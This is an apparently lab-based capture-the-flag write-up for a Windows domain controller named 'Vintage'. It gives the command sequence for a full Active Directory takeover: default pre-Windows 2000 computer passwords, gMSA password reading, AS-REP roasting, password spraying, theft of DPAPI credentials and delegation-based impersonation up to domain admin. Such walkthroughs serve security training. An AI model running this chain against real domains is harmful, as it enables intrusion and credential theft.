








Vintage#

Initial Enumeration#
nmap -sC -sV -Pn 10.10.11.45 -oN scans/nmap.initial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-23 21:34 GMT
Stats: 0:02:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 36.68% done; ETC: 21:41 (0:03:57 remaining)
Stats: 0:06:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 91.67% done; ETC: 21:41 (0:00:05 remaining)
Stats: 0:07:29 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.96% done; ETC: 21:42 (0:00:00 remaining)
Nmap scan report for 10.10.11.45
Host is up (1.1s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-23 14:40:29Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-03-23T14:41:23
|_ start_date: N/A
|_clock-skew: -6h59m57s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 452.07 seconds
Windows auth is apparently disabled
nxc ldap 10.10.11.45 -u 'p.rosa' -p 'Rosaisbest123'
Trying to see if I can find some users, not really
kerbrute userenum \
-d vintage.htb \
--dc 10.10.11.45 \
-o loot/valid_ad_users \
/usr/share/seclists-git/Usernames/xato-net-10-million-usernames-dup.txt
Fails
smbclient -U 'p.rosa' --password 'Rosaisbest123' -L //10.10.11.45/
Fails
evil-winrm -i vintage.htb -u p.rosa -p 'Rosaisbest123'
We just get the domain out of that nothing more
python3 enum4linux-ng.py -As 10.10.11.45
Further dns enumeration
dig +short ANY @10.10.11.45 vintage.htb
10.10.11.45
dc01.vintage.htb.
dc01.vintage.htb. hostmaster.vintage.htb. 226 900 600 86400 3600
Sincing NTP with the controller
sudo ntpdate vintage.htb
We can get a TGT with rosa’s creds
getTGT.py vintage.htb/p.rosa:'Rosaisbest123'
export KRB5CCNAME=p.rosa.ccache
Fails
evil-winrm -i dc01.vintage.htb -r vintage.htb
Fails
psexec.py vintage.htb/p.rosa@vintage.htb -k -no-pass
But we can authenticate to ldap apparently
nxc ldap 10.10.11.45 -k --use-kcache
Enumeration AD/LDAP#
Using bloodhound.py to dump some ldap data for bloodhound
python3 /opt/BloodHound.py/bloodhound.py \
-u 'p.rosa' \
-p 'Rosaisbest123' \
-d vintage.htb \
-ns 10.10.11.45 \
-c All \
-k
Getting a list of users with powerview.py
python3 /opt/powerview.py/powerview.py \
'vintage.htb/p.rosa:Rosaisbest123@dc01.vintage.htb' \
-k
Get-DomainUser
cat users
administrator
guest
krbtgt
svc_ark
svc_ldap
svc_sql
l.bianchi_adm
c.neri_adm
p.rosa
c.neri
g.viola
l.bianchi
r.verdi
m.rossi
We could also have done it with ldapsearch
ldapsearch -x -LLL \
-H ldap://10.10.11.45:389 \
-b "CN=users,DC=vintage,DC=htb" \
-D "p.rosa@vintage.htb" \
-w "Rosaisbest123" \
"(objectClass=user)" \
sAMAccountName |\
grep sAMAccountName |\
cut -d' ' -f 2
Pre-windows 2000 compatible access#
https://www.semperis.com/blog/security-risks-pre-windows-2000-compatibility-windows-2022/
https://trustedsec.com/blog/diving-into-pre-created-computer-accounts
https://www.hackingarticles.in/abusing-ad-weak-permission-pre2k-compatibility/
Looking at things in bloodhound we can see that the AUTHENTICATED USERS group is a member of PRE-WINDOWS 2000 COMPATIBLE ACCESS as pointed out in the semperis blog as a being a default. This means all users including rosa can use that on the FS01 computer.

Trying and failing to dump hashes with different tools. I think this doesn’t work because windows auth is disabled, and we need to authenticate via kerberos, which may not be working with those.
nxc ldap 10.10.11.45 -k --use-kcache -M pre2k
nxc ldap 10.10.11.45 -u 'p.rosa' -p 'Rosaisbest123' -M pre2k
pre2k auth -u 'p.rosa' -p 'Rosaisbest123' -dc-ip 10.10.11.45 -d ignite.local
Reading further on the trustedsec blog above I found out that by default checking the Assign this computer account as a pre-Windows 2000 computer box will create default computer accounts with a password matching the name of the computer in lowercase
So like that? Yes
getTGT.py \
-dc-ip 10.10.11.45 \
'vintage.htb/FS01$:fs01'
export KRB5CCNAME='FS01$.ccache'
FS01 has ReadGMSAPassword#
So we have a ticket as the FS01 computer account, lets look at bloodhound again to find what we might want to do with that.

A gMSA or group Managed Service Account is a domain account that can be used to run services on multiple servers without having to manage the password. The gMSA provides automatic password management and simplified service principal name (SPN) management, including delegation of management to other administrators.
So when logged in as FS01 we should be able to read the password of the gMSA, or dump its hash.
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
get object 'GMSA01$' \
--attr msDS-ManagedPassword
We can get a TGT as the gMSA based on the NT hash
getTGT.py \
-dc-ip 10.10.11.45 \
'vintage.htb/GMSA01$:' \
-hashes ':5143*********************'
export KRB5CCNAME='GMSA01$.ccache'
gMSA genericWrite over servicemanagers#
Once again back to bloodhound, looking at the outbound object control for the gMSA, it does have addSelf, and genericWrite over the SERVICEMANAGERS group.

So while logged in over kerberos as the gMSA, we can add p.rosa as a member of service managers.
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
add groupMember "SERVICEMANAGERS" "P.Rosa"
Servicemanagers genericWrite over system accounts#
This is helpful because servicemanagers has generic write over those 3 accounts 
Get a TGT as rosa again
getTGT.py vintage.htb/p.rosa:'Rosaisbest123'
export KRB5CCNAME=p.rosa.ccache
Validate that we are indeed a member of servicemanagers
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
get membership p.rosa
A mentionned before we have genericWrite over a few service accounts, so we could add the DONT_REQ_PREAUTH User Account Control, to Kerberoast them later, let’s just sanity check this first and see if it is disabled on any of the users we know about. We’ll use the user list we have gathered in our ldap enumeration phase.
No it’s not disabled anywhere yet.
GetNPUsers.py \
-dc-ip 10.10.11.45 \
-usersfile loot/users \
-request \
vintage.htb/
Let’s disable it on all 3 accounts
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
add uac SVC_ARK \
-f DONT_REQ_PREAUTH
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
add uac SVC_LDAP \
-f DONT_REQ_PREAUTH
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
add uac SVC_SQL \
-f DONT_REQ_PREAUTH
AS-Rep Roasting#
Now we can dump the as-rep hashes for them, except svc_sql, we get KDC_ERR_CLIENT_REVOKED
GetNPUsers.py \
-dc-ip 10.10.11.45 \
-usersfile loot/users \
-request \
vintage.htb/
This is because this account has the ACCOUNTDISABLE uac
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
get object SVC_SQL
Let’s just remove that
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
remove uac SVC_SQL \
-f ACCOUNTDISABLE
And roast again, now we get an as-rep for all 3 accounts
GetNPUsers.py \
-dc-ip 10.10.11.45 \
-usersfile loot/users \
-request \
vintage.htb/
Lookup the correct hashcat mode for as-rep
hashcat --help|grep -i as-rep
And run rockyou through it
hashcat -m 18200 roast ~/.local/share/seclists/rockyou.txt
We managed to crack the svc_sql account
hashcat -m 18200 roast ~/.local/share/seclists/rockyou.txt --show
Get a TGT with that…
getTGT.py vintage.htb/svc_sql:'Zer******'
export KRB5CCNAME=svc_sql.ccache
But as we saw on the initial nmap run there’s no mssql service running on this box, it does make sense, this account is disabled for a reason.
nxc mssql 10.10.11.45 -k --use-kcache
Password Reuse#
But the password might have been reused somewhere
kerbrute passwordspray \
--dc vintage.htb \
-d vintage.htb \
loot/users \
'Zer******'
And it has been reused indeed by the c.neri user
getTGT.py vintage.htb/c.neri:'Zer******'
export KRB5CCNAME=c.neri.ccache
Configure the realm properly
cat /etc/krb5.conf
[libdefaults]
default_realm = VINTAGE.HTB
dns_lookup_realm = false
dns_lookup_kdc = true
[realms]
VINTAGE.HTB = {
kdc = vintage.htb
admin_server = vintage.htb
}
[domain_realm]
.vintage.htb = VINTAGE.HTB
vintage.htb = VINTAGE.HTB
And we can now winrm as c.neri
evil-winrm -i dc01.vintage.htb -r vintage.htb
Stealing and Decrypting DPAPI Secrets#
.NET provides access to the Data Protection API (DPAPI), it is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords).
The data is stored in the users directory and is secured by user-specific master keys derived from the users password.
Stealing the Encryption Key#
The keys are usually located in:
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
The download helper of evil-winrm doesn’t work for me so, since those are pretty small anyway, I’m just encoding them in base64 to exflitrate them through the clipboard
Getting the SID and GUID for c.neri
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
get object c.neri
objectGUID: 486e5074-c6a2-476f-b4ba-5c8a925ef7e6
objectSid: S-1-5-21-4024337825-2033394866-2055507597-1115
Getting the key
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\C.Neri\appdata\roaming\microsoft\credentials\C4BB96844A5C9DD45D5B6A9859252BA6"))
Dropping it into my machine
wl-paste | base64 -d > C4BB96844A5C9DD45D5B6A9859252BA6
Stealing Encrypted Secrets#
DPAPI-protected secrets are typically located in:
C:\Users\$USER\AppData\Local\Microsoft\Credentials\C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
Looking around
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
dir -h
Exfil
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b"))
Dropping it into my own box
wl-paste | base64 -d > 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Decrypting the secrets#
The encryption key is password protected, but we already have the user’s password
dpapi.py masterkey \
-file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b \
-sid S-1-5-21-4024337825-2033394866-2055507597-1115 \
-password Zer******
Now with the key in plaintext for we can decrypt the secret and it’s the password for c.neri_adm
dpapi.py credential \
-file C4BB96844A5C9DD45D5B6A9859252BA6 \
-key 0xf*******************************************************************************************************************************
getTGT.py vintage.htb/c.neri_adm:'Uncr4ck4bl3P4ssW0rd0312'
export KRB5CCNAME=c.neri_adm.ccache
Cool, back to bloodhound.
C Neri Adm GenericWrite to DelegatedAdmins#
Same as usual we’re looking at the outbound object controls for c.neri_adm and it has generiWrite over a group called delegated admins

Which means we can connect as c.neri_adm and add members to delegatedadmins, we’ll add svc_sql
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
add groupMember "DELEGATEDADMINS" "SVC_SQL"
How is this helpful? Because since the sql service is disabled we can give it constrained access to a fake spn, and svc_sql will then be able to impersonate an admin when connecting to that service specifically.
Give svc_sql a fake spn
bloodyAD -k \
--dc-ip 10.10.11.45 \
--host dc01.vintage.htb \
-d "VINTAGE.HTB" \
set object "SVC_SQL" servicePrincipalName \
-v "cifs/fake"
Get a TGT as svc_sql again
getTGT.py vintage.htb/svc_sql:'Zer******'
export KRB5CCNAME=svc_sql.ccache

Get a Service Ticket to that fake spn while impersonating another admin: l.bianchi_adm
getST.py -k \
-spn 'cifs/dc01.vintage.htb' \
-impersonate l.bianchi_adm \
-dc-ip 10.10.11.45 \
'vintage.htb/svc_sql:Zer******'
export KRB5CCNAME=l.bianchi_adm.ccache
And finally we can use that Service Ticket with wmi to get a shell as l.bianchi_admin
wmiexec.py vintage.htb/l.bianchi_adm@dc01.vintage.htb -k -no-pass
That account is a member of the domain admins group, which gives us full admin on the dc.
